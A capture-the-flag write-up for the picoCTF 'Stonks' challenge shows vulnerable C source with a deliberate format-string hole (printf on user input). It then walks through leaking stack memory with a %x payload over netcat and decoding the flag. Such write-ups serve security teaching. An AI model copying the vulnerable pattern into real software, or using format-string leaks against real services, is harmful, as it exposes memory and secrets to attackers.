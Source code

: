 # Stonks

---

### **Author:** Madstacks
### **Category:** Bin

![](https://i.imgur.com/cGVwuQT.png)


---
## Description


I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! vuln.c nc mercury.picoctf.net 33411


```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <time.h>

#define FLAG_BUFFER 128
#define MAX_SYM_LEN 4

typedef struct Stonks {
	int shares;
	char symbol[MAX_SYM_LEN + 1];
	struct Stonks *next;
} Stonk;

typedef struct Portfolios {
	int money;
	Stonk *head;
} Portfolio;

int view_portfolio(Portfolio *p) {
	if (!p) {
		return 1;
	}
	printf("\nPortfolio as of ");
	fflush(stdout);
	system("date"); // TODO: implement this in C
	fflush(stdout);

	printf("\n\n");
	Stonk *head = p->head;
	if (!head) {
		printf("You don't own any stonks!\n");
	}
	while (head) {
		printf("%d shares of %s\n", head->shares, head->symbol);
		head = head->next;
	}
	return 0;
}

Stonk *pick_symbol_with_AI(int shares) {
	if (shares < 1) {
		return NULL;
	}
	Stonk *stonk = malloc(sizeof(Stonk));
	stonk->shares = shares;

	int AI_symbol_len = (rand() % MAX_SYM_LEN) + 1;
	for (int i = 0; i <= MAX_SYM_LEN; i++) {
		if (i < AI_symbol_len) {
			stonk->symbol[i] = 'A' + (rand() % 26);
		} else {
			stonk->symbol[i] = '\0';
		}
	}

	stonk->next = NULL;

	return stonk;
}

int buy_stonks(Portfolio *p) {
	if (!p) {
		return 1;
	}
	char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);

	int money = p->money;
	int shares = 0;
	Stonk *temp = NULL;
	printf("Using patented AI algorithms to buy stonks\n");
	while (money > 0) {
		shares = (rand() % money) + 1;
		temp = pick_symbol_with_AI(shares);
		temp->next = p->head;
		p->head = temp;
		money -= shares;
	}
	printf("Stonks chosen\n");

	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);

	// TODO: Actually use key to interact with API

	view_portfolio(p);

	return 0;
}

Portfolio *initialize_portfolio() {
	Portfolio *p = malloc(sizeof(Portfolio));
	p->money = (rand() % 2018) + 1;
	p->head = NULL;
	return p;
}

void free_portfolio(Portfolio *p) {
	Stonk *current = p->head;
	Stonk *next = NULL;
	while (current) {
		next = current->next;
		free(current);
		current = next;
	}
	free(p);
}

int main(int argc, char *argv[])
{
	setbuf(stdout, NULL);
	srand(time(NULL));
	Portfolio *p = initialize_portfolio();
	if (!p) {
		printf("Memory failure\n");
		exit(1);
	}

	int resp = 0;

	printf("Welcome back to the trading app!\n\n");
	printf("What would you like to do?\n");
	printf("1) Buy some stonks!\n");
	printf("2) View my portfolio\n");
	scanf("%d", &resp);

	if (resp == 1) {
		buy_stonks(p);
	} else if (resp == 2) {
		view_portfolio(p);
	}

	free_portfolio(p);
	printf("Goodbye!\n");

	exit(0);
}

```

---

## Solution

Connecting the service given:

**output**
```
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
```

if we inspect the source code, we can see that if we choose to buy stonks, we are able to enter a string which is used as the format string for `printf`

This is vulnerable to a format [string attack](https://en.wikipedia.org/wiki/Uncontrolled_format_string).

```c
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```

we can get some leaks from the program by using `%x`

```
root@immalegend:~$ nc mercury.picoctf.net 33411
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Buying stonks with token:
8de5390804b00080489c3f7ef2d80ffffffff18de3160f7f00110f7ef2dc708de418078de53708de53906f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6334326136613431ffa4007df7f2daf8f7f00440f4c0fc0010f7d8fbe9f7f010c0f7ef25c0f7ef2000ffa465e8f7d8058df7ef25c0
Portfolio as of Wed Jan  5 20:55:42 UTC 2022


7 shares of HG
12 shares of T
22 shares of LBBT
13 shares of E
17 shares of CLLY
Goodbye!
```

Now, it looks like hex. I reformatted it in [CyberChef](https://gchq.github.io/CyberChef/):


```
8de5390804b00080489c3f7ef2d80ffffffff18de3160f7f00110f7ef2dc708de418078de53708de53906f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6334326136613431ffa4007df7f2daf8f7f00440f4c0fc0010f7d8fbe9f7f010c0f7ef25c0f7ef2000ffa465e8f7d8058df7ef25c0
```

if we clean this up, we get:
```
6f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6334326136613431ffa4007d
```

![](https://i.imgur.com/e8d5vhj.png)


**Flag: **
```
picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6
```



